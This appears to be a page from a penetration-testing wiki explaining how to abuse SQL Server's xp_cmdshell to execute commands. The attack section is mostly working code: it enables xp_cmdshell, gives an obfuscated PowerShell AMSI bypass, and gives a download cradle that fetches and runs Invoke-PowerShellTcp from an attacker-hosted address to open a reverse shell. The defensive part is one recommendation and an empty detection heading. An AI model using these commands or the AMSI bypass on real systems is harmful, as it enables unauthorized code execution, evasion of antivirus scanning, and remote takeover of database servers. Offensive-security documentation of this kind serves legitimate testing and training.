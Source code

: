 ```yaml
---
description: xp_cmdshell could be used to execute commands on the SQL Server.
---
```


# Executing Commands

## Attacking

### How it works

[xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) is a SQL Server functionality that is disabled by default. However it can be enabled using sp\_configure. It spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. The Windows process spawned by **** xp\_cmdshell has the same security rights as the SQL Server service account.

### Executing the attack

**In this example and screenshots mssql-cli is used, but this also works with Heidisql in the query tab.**

1. Enable xp\_cmdshell with the following commands:

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69) (1) (1) (1) (1).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60) (1) (1) (1) (1).png>)

3\. Gain a reverse shell and execute commands by executing the following query after doing the following:

* Create a webserver directory to host some files.
* Download [Invoke-PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
* Save a amsi bypass in amsi.txt, for example.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

This query will download and load into memory the `amsi.txt` file and then the `Invoke-PowerShellTcp` script creating a reverse shell. These should be hosted on your webserver on the attacking machine. For more information about this technique check out:

{% content-ref url="../../misc/reverse-shell-trick.md" %}
[reverse-shell-trick.md](../../misc/reverse-shell-trick.md)
{% endcontent-ref %}

![](<../../../.gitbook/assets/image (45) (1) (1) (1) (1).png>)

## Defending

### Recommendations

* Sysadmin users can enable xp\_cmdshell, so limit these users.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15" %}
